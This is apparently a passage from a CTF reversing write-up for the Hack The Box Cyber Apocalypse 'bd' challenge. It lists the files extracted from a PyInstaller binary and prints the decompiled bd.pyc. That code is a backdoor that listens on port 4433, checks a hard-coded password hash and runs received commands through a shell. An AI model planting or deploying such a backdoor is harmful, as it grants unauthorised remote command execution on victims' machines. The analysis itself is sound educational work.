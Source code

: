 Now inside ```pydata.dump_extracted``` directory we can see the following files:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/bd]
└──╼ $ls
_asyncio.cpython-38-x86_64-linux-gnu.so         _decimal.cpython-38-x86_64-linux-gnu.so  libssl.so.1.1                                    pyimod03_importers.pyc
base_library.zip                                _hashlib.cpython-38-x86_64-linux-gnu.so  libtinfo.so.5                                    pyi_rth_multiprocessing.pyc
bd.pyc                                          include                                  libz.so.1                                        PYZ-00.pyz
_bz2.cpython-38-x86_64-linux-gnu.so             lib                                      _lzma.cpython-38-x86_64-linux-gnu.so             PYZ-00.pyz_extracted
_codecs_cn.cpython-38-x86_64-linux-gnu.so       libbz2.so.1.0                            mmap.cpython-38-x86_64-linux-gnu.so              _queue.cpython-38-x86_64-linux-gnu.so
_codecs_hk.cpython-38-x86_64-linux-gnu.so       libcrypto.so.1.1                         _multibytecodec.cpython-38-x86_64-linux-gnu.so   readline.cpython-38-x86_64-linux-gnu.so
_codecs_iso2022.cpython-38-x86_64-linux-gnu.so  libexpat.so.1                            _multiprocessing.cpython-38-x86_64-linux-gnu.so  resource.cpython-38-x86_64-linux-gnu.so
_codecs_jp.cpython-38-x86_64-linux-gnu.so       libffi.so.6                              _opcode.cpython-38-x86_64-linux-gnu.so           _ssl.cpython-38-x86_64-linux-gnu.so
_codecs_kr.cpython-38-x86_64-linux-gnu.so       liblzma.so.5                             _posixshmem.cpython-38-x86_64-linux-gnu.so       struct.pyc
_codecs_tw.cpython-38-x86_64-linux-gnu.so       libmpdec.so.2                            pyiboot01_bootstrap.pyc                          termios.cpython-38-x86_64-linux-gnu.so
_contextvars.cpython-38-x86_64-linux-gnu.so     libpython3.8.so.1.0                      pyimod01_os_path.pyc

```

The intresting file is ```bd.pyc```, We can decompile it using [https://github.com/rocky/python-decompile3](https://github.com/rocky/python-decompile3) (Install it using README):

```python
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/reversing/bd]
└──╼ $decompyle3 bd.pyc 
# decompyle3 version 3.3.2
# Python bytecode 3.8 (3413)
# Decompiled from: Python 3.8.5 (default, Aug  2 2020, 15:09:07) 
# [GCC 10.2.0]
# Embedded file name: bd.py
import socket
from hashlib import md5
from subprocess import check_output
sock = socket.socket()
sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sock.bind(('0.0.0.0', 4433))
sock.listen(5)
while True:
    while True:
        client, addr = sock.accept()
        data = client.recv(32)
        if len(data) != 32:
            client.close()

		if data.decode() != md5(b's4v3_th3_w0rld').hexdigest():
			client.send(b'Invalid')
			client.close()
		else:
			size = client.recv(1)
			command = client.recv(int.from_bytes(size, 'little'))
			if not command.startswith(b'command:'):
				client.close()
			else:
				command = command.replace(b'command:', b'')
				output = check_output(command, shell=True)
```
